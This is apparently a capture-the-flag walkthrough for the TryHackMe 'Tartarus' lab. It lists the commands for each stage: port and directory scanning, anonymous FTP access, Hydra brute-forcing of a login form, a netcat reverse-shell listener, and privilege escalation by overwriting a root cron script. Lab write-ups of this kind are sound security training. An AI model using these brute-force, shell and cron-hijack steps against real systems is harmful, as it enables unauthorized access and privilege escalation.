 ```yaml
---
description: https://tryhackme.com/room/tartaraus
---
```


# Tartarus

### &#x20;**User Flag**

```
nmap 10.10.196.179
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-32-16.png>)

#### ftp

```
lftp 10.10.196.179 -u anonymous,
lftp :~> ls -a
lftp :~> cat test.txt
lftp :~> cd ...
lftp :~> ls -a
lftp :~> cd ...
lftp :~> ls -a
lftp :~> cat yougotgoodeyes.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-33-46.png>)

#### http

```bash
gobuster dir -u http://10.10.196.179/ \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64 -x txt
gobuster dir -u http://10.10.196.179/sUp3r-s3cr3t \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 09-11-24.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-50-21.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-17 08-47-21.png>)

```bash
curl http://10.10.196.179/robots.txt
wget http://10.10.196.179/admin-dir/credentials.txt
wget http://10.10.196.179/admin-dir/userid
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 09-12-22.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-17 09-12-27.png>)

```bash
hydra -L userid -p test \
      'http-post-form://10.10.196.179/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!' \
      -I -f -V -t64
hydra -l enox -P  \
      'http-post-form://10.10.196.179/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!' \
      -I -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 09-15-30.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-17 09-16-37.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-17 10-10-40.png>)

```bash
nc -nvlp 4444
$ find / -name user.txt 2>/dev/null
$ cat /home/d4rckh/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 10-11-54.png>)

### **Root Flag**

```bash
$ cat /etc/crontab
$ ls -l /home/d4rckh/cleanup.py
$ echo 'import os; os.system("cat /root/root.txt > /tmp/root.txt")' > /home/d4rckh/cleanup.py
$ cat /tmp/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 10-14-14.png>)

## :link: Support Material

{% embed url="https://gtfobins.github.io/gtfobins/gdb/#sudo" %}

****
